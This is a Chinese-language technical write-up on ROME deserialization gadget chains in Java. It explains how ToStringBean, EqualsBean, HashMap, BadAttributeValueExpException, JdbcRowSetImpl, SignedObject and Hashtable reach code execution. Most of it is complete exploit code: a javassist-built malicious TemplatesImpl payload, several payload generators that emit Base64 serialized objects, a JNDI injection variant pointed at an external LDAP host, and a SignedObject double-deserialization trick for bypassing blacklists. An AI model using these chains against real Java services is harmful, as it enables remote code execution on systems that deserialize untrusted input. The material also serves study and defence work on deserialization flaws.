ROME反序列化利用链

- - -

# ROME反序列化利用链

## 前言

rome中的ToStringBean类，其构造函数为传入类和对象，分别赋值给this.\_beanClass和this.\_obj  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223058-15612f4a-8ad6-1.png)  
其无参toString方法会调用有参toString方法，传入的参数为this.\_beanClass值的类名  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223105-197f3fc2-8ad6-1.png)  
在有参toString方法中，会先获取this.\_beanClass的getter方法，然后通过反射调用this.\_obj的getter无参方法，而TemplatesImpl的getOutputProperties方法会触发类加载导致代码执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223112-1dadf502-8ad6-1.png)  
rome中的EqualsBean类的hashCode方法会调用beanHashCode方法，而beanHashCode方法会调用this.\_obj.toString()方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223118-215ac4be-8ad6-1.png)  
this.\_obj由EqualsBean的构造函数传入，是我们可控的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223124-24d2a6ac-8ad6-1.png)  
因为在HashMap的readobject方法中，会调用hash(key)，进而调用key.hashCode()，所以我们可以利用HashMap作为入口构造反序列化链子

## demo

util.java

```plain
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import java.io.*;
import java.lang.reflect.Field;

public class util {
    public static Object getTeml() throws Exception{
        // 动态构造恶意TemplatesImpl对象
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("asdasdasasd");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "Evil" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        // 获得其变量
        Field name = templates.getClass().getDeclaredField("_name");
        Field clazz = templates.getClass().getDeclaredField("_class");
        Field factory = templates.getClass().getDeclaredField("_tfactory");
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        // 赋予修改权限
        name.setAccessible(true);
        clazz.setAccessible(true);
        factory.setAccessible(true);
        bytecodes.setAccessible(true);
        // 修改变量值
        name.set(templates,"asdasd");
        clazz.set(templates,null);
        factory.set(templates, new TransformerFactoryImpl());
        bytecodes.set(templates,targetByteCodes);
        return templates;
    }

    public static void setFieldValue(Object o, String fieldName, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(o,value);
    }
    public static byte[] serialize(Object o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bao);
        oos.writeObject(o);
        return bao.toByteArray();
    }

    public static void unserialize(byte[] b) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bis = new ByteArrayInputStream(b);
        ObjectInputStream ois = new ObjectInputStream(bis);
        ois.readObject();
    }
}
```

rome.java

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.xml.transform.Templates;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.util.Base64;
import java.util.HashMap;

public class rome {

    public static void main(String[] args) throws Exception{
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, template);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);

        HashMap hashmap = new HashMap();
        util.setFieldValue(hashmap,"size",2);
        Class nodeC = Class.forName("java.util.HashMap$Node");
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 1);
        Array.set(tbl, 0, nodeCons.newInstance(0, equalsBean, 1, null));
        util.setFieldValue(hashmap,"table",tbl);

        byte[] ser = util.serialize(hashmap);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }

}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223211-4165ff6c-8ad6-1.png)

## 调试分析

构造的HashMap  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223223-485c5320-8ad6-1.png)  
在HashMap的readObject方法中会调用到putVal(hash(key), key, value, false, false)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223229-4c0d1478-8ad6-1.png)  
跟进hash(key)，会调用key.hashCode()方法，此时key为EqualsBean对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223235-4f9bc4ea-8ad6-1.png)  
紧接着调用到EqualsBean的beanHashCode方法，然后调用this.\_obj.toString()方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223241-52e6417a-8ad6-1.png)  
此处this.\_obj为ToStringBean  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223247-56daacd0-8ad6-1.png)  
进入ToStringBean.toString方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223253-5a6b859a-8ad6-1.png)  
获取getter方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223301-5f034ee4-8ad6-1.png)  
反射调用this.\_obj的getter方法，此处this.\_obj为恶意TemplatesImpl对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223308-62cc1222-8ad6-1.png)  
反射调用恶意TemplatesImpl对象的getOutputProperties方法，从而触发类加载导致代码执行  
调用栈：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223316-68220c2c-8ad6-1.png)

## 其他构造方式

### BadAttributeValueExpException

BadAttributeValueExpException类在反序列化时会调用toString方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223338-74c03440-8ad6-1.png)  
valObj可控，为其构造函数传入  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223345-790421c4-8ad6-1.png)  
demo

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.util.Base64;

public class rome2 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, template);
        BadAttributeValueExpException b = new BadAttributeValueExpException(1);
        util.setFieldValue(b,"val",toStringBean);
        byte[] ser = util.serialize(b);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223402-834784be-8ad6-1.png)  
调用栈：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223412-89423eae-8ad6-1.png)

### JdbcRowSetImpl

JdbcRowSetImpl类的getDatabaseMetaData方法会调用this.connect方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223425-90cd0a50-8ad6-1.png)  
this.connect方法中会调用lookup，在dataSource可控的情况下会造成jndi注入漏洞  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223430-9401a88e-8ad6-1.png)  
dataSource可以通过setDataSourceName来设置  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223436-97481726-8ad6-1.png)  
demo：

```plain
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import java.util.Base64;
import java.util.HashMap;

public class rome3 {
    public static void main(String[] args) throws Exception{
        JdbcRowSetImpl j = new JdbcRowSetImpl();
        j.setDataSourceName("ldap://d92d14bde1.ipv6.xn--gg8h.eu.org.");
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, "1");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean,1);
        util.setFieldValue(toStringBean,"_obj",j);
        byte[] ser = util.serialize(hashmap);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223451-a076529a-8ad6-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223455-a2c31dc6-8ad6-1.png)

### SignedObject

SignedObject类的getObject方法中，会反序列化this.content，造成二次反序列化  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223512-ad0569c4-8ad6-1.png)  
而this.content由其构造函数传入  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223518-b0aa5bd4-8ad6-1.png)  
再反序列化入口有黑名单时，可以将序列化对象最为参数传入SignedObject的构造函数中，触发SignedObject的getObject方法，造成二次反序列化进行绕过  
demo:

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.Serializable;
import java.math.BigInteger;
import java.security.*;
import java.security.interfaces.DSAParams;
import java.security.interfaces.DSAPrivateKey;
import java.util.Base64;
import java.util.HashMap;

public class rome4 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, "template");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean, "1");
        util.setFieldValue(toStringBean,"_obj",template);

        SignedObject s = makeSignedObject(hashmap);

        // 二次反序列化
        ToStringBean toStringBean2 = new ToStringBean(SignedObject.class, "s");
        EqualsBean equalsBean2 = new EqualsBean(ToStringBean.class, toStringBean2);
        HashMap hashmap2 = new HashMap();
        hashmap2.put(equalsBean2, "1");
        util.setFieldValue(toStringBean2,"_obj",s);

        byte[] ser = util.serialize(hashmap2);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }

    private static SignedObject makeSignedObject(Object o) throws IOException, InvalidKeyException, SignatureException {
        return new SignedObject((Serializable) o,
                new DSAPrivateKey() {
                    @Override
                    public DSAParams getParams() {
                        return null;
                    }

                    @Override
                    public String getAlgorithm() {
                        return null;
                    }

                    @Override
                    public String getFormat() {
                        return null;
                    }

                    @Override
                    public byte[] getEncoded() {
                        return new byte[0];
                    }

                    @Override
                    public BigInteger getX() {
                        return null;
                    }
                },
                new Signature("x") {
                    @Override
                    protected void engineInitVerify(PublicKey publicKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineInitSign(PrivateKey privateKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineUpdate(byte b) throws SignatureException {

                    }

                    @Override
                    protected void engineUpdate(byte[] b, int off, int len) throws SignatureException {

                    }

                    @Override
                    protected byte[] engineSign() throws SignatureException {
                        return new byte[0];
                    }

                    @Override
                    protected boolean engineVerify(byte[] sigBytes) throws SignatureException {
                        return false;
                    }

                    @Override
                    protected void engineSetParameter(String param, Object value) throws InvalidParameterException {

                    }

                    @Override
                    protected Object engineGetParameter(String param) throws InvalidParameterException {
                        return null;
                    }
                });
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223543-bf6acfc8-8ad6-1.png)

### 不依赖ToStringBean

EqualsBean的beanEquals方法中也存在getter方法的调用，但需要满足this.\_obj和obj都不为空，this.\_obj是构造函数传入的，obj是调用beanEquals方法时传入的参数，EqualsBean的equals方法调用了beanEquals方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223606-cd27cfc6-8ad6-1.png)  
在Hashtable的readObject方法中，会调用reconstitutionPut方法，在reconstitutionPut方法中会调用到equals方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223612-d0d3a726-8ad6-1.png)  
e是由tab而来，tab中为空时，会将传入的key和value传入tab  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223618-d4857520-8ad6-1.png)  
不为空时，会调用if ((e.hash == hash) && e.key.equals(key))，先进行hash判断，hash由key.hashCode而来(可hash碰撞进行绕过)，HashMap的eauqls方法最终会调用到AbstractMap的equals方法，AbstractMap的equals方法中，会调用到value.equals(m.get(key))  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223624-d82d32a8-8ad6-1.png)  
构造payload使value为equalsbean，m.get(key)为恶意对象  
demo：

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.Serializable;
import java.math.BigInteger;
import java.security.*;
import java.security.interfaces.DSAParams;
import java.security.interfaces.DSAPrivateKey;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class rome6 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, "template");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean, "1");
        util.setFieldValue(toStringBean,"_obj",template);
        SignedObject s = makeSignedObject(hashmap);
        SignedObject s2 = makeSignedObject(null);

        // 二次反序列化
        EqualsBean equalsBean2 = new EqualsBean(String.class, "1");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy",equalsBean2);
        map1.put("zZ",s);
        map2.put("zZ",equalsBean2);
        map2.put("yy",s);

        Hashtable t = new Hashtable<>();
        t.put(map1,"1");
        t.put(map2,"2");

        util.setFieldValue(equalsBean2,"_beanClass",SignedObject.class);
        util.setFieldValue(equalsBean2,"_obj",s2);

        byte[] ser = util.serialize(t);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);

    }

    private static SignedObject makeSignedObject(Object o) throws IOException, InvalidKeyException, SignatureException {
        return new SignedObject((Serializable) o,
                new DSAPrivateKey() {
                    @Override
                    public DSAParams getParams() {
                        return null;
                    }

                    @Override
                    public String getAlgorithm() {
                        return null;
                    }

                    @Override
                    public String getFormat() {
                        return null;
                    }

                    @Override
                    public byte[] getEncoded() {
                        return new byte[0];
                    }

                    @Override
                    public BigInteger getX() {
                        return null;
                    }
                },
                new Signature("x") {
                    @Override
                    protected void engineInitVerify(PublicKey publicKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineInitSign(PrivateKey privateKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineUpdate(byte b) throws SignatureException {

                    }

                    @Override
                    protected void engineUpdate(byte[] b, int off, int len) throws SignatureException {

                    }

                    @Override
                    protected byte[] engineSign() throws SignatureException {
                        return new byte[0];
                    }

                    @Override
                    protected boolean engineVerify(byte[] sigBytes) throws SignatureException {
                        return false;
                    }

                    @Override
                    protected void engineSetParameter(String param, Object value) throws InvalidParameterException {

                    }

                    @Override
                    protected Object engineGetParameter(String param) throws InvalidParameterException {
                        return null;
                    }
                });
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124223642-e2939e9e-8ad6-1.png)
